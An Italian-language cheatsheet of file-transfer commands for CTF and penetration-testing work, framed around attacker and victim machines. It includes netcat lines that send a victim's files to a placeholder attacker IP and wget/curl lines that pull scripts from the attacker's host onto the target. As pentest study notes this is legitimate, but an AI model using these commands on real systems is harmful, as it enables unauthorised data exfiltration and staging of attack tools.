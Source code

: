 # 📤 File Transfer Cheatsheet

Appunti e snippet per la fase di **trasferimento file** in CTF/Pentest.

## 📌 Obiettivi

* Spostare file da/verso macchina vittima e attaccante
* Usare protocolli sicuri (SSH/SCP) quando disponibili
* Sapere come muoversi anche in shell limitate (senza SSH)

---

## 🔑 SCP (via SSH)

**Perché usarlo:**
È il metodo più sicuro e immediato. Richiede credenziali o chiavi SSH valide.
Si usa come “copia remota” tra due host.

---

### 🔹 Scaricare **da remoto → locale**

👉 Parti dalla tua macchina **attaccante**:

```bash
scp utente@<ip-vittima>:/percorso/remoto/file.jpg /percorso/locale/
```

* `utente` → l’account SSH valido sulla vittima
* `<ip-vittima>` → IP della macchina target
* `/percorso/remoto/file.jpg` → percorso completo sul target
* `/percorso/locale/` → cartella di destinazione sulla tua macchina

---

### 🔹 Inviare **da locale → remoto**

```bash
scp /percorso/locale/file.jpg utente@<ip-vittima>:/percorso/remoto/
```

---

### 🔹 Trasferire intera directory

```bash
scp -r utente@<ip-vittima>:/var/www/html ./backup_html
```

---

## 🌐 Python HTTP Server

**Perché usarlo:**
Se hai solo una shell remota e **niente SSH**, puoi aprire un webserver dalla vittima e scaricare i file con `wget`/`curl`.

---

### 🔹 Dal lato vittima (esporta cartella)

```bash
cd /path/con/file
python3 -m http.server 8080
```

* Avvia un server HTTP sulla porta 8080
* Rende accessibile tutto ciò che sta nella cartella corrente

---

### 🔹 Dal lato attaccante (scarica file)

```bash
wget http://<ip-vittima>:8080/file.jpg
curl -O http://<ip-vittima>:8080/file.jpg
```

---

## 🔁 Netcat (NC)

**Perché usarlo:**
Metodo universale, funziona senza dipendenze particolari.
Consente di trasferire file raw tra due host.

---

### 🔹 Scaricare file **da vittima → attaccante**

👉 Attaccante in ascolto:

```bash
nc -lvnp 4444 > file.jpg
```

👉 Vittima invia:

```bash
nc <ip-attaccante> 4444 < file.jpg
```

---

### 🔹 Inviare file **da attaccante → vittima**

👉 Attaccante invia:

```bash
nc -lvnp 4444 < file.jpg
```

👉 Vittima riceve:

```bash
nc <ip-attaccante> 4444 > file.jpg
```

---

## 📂 Curl / Wget (reverse)

**Perché usarlo:**
Capovolgi lo scenario:

* L’attaccante serve i file
* La vittima li scarica

---

### 🔹 Attaccante (serve file)

```bash
python3 -m http.server 80
```

### 🔹 Vittima (scarica file)

```bash
wget http://<ip-attaccante>/file.sh
curl -O http://<ip-attaccante>/file.sh
```

---

## 🔓 FTP (quando disponibile)

**Perché usarlo:**
Se c’è FTP attivo, puoi sfruttarlo per trasferire file.

### 🔹 Attaccante come server FTP

```bash
python3 -m pyftpdlib -p 21 -w
```

### 🔹 Vittima come client

```bash
ftp <ip-attaccante>
```

---

## ⚡ SMB (condivisioni Windows/Linux)

**Perché usarlo:**
Utile quando SMB è abilitato. Puoi accedere a cartelle condivise.

### 🔹 Attaccante si connette

```bash
smbclient //<ip-vittima>/share -U utente
```

---

## 🧩 Base64 (ultima risorsa)

**Perché usarlo:**
Quando nessun protocollo funziona e puoi solo copiare/incollare testo nella shell.

### 🔹 Dal lato attaccante

```bash
base64 file.jpg > file.txt
```

### 🔹 Dal lato vittima

Copia dentro un file, poi:

```bash
base64 -d file.txt > file.jpg
```

---

## ✅ Best Practice

* **SCP/SSH** → prima scelta, rapido e sicuro
* **Python HTTP server** → ottimo con shell limitata
* **Netcat** → universale, semplice da ricordare
* **Curl/Wget** → ottimo per caricare exploit/script dal tuo host
* **Base64** → “ultima spiaggia” quando tutto il resto è bloccato

---

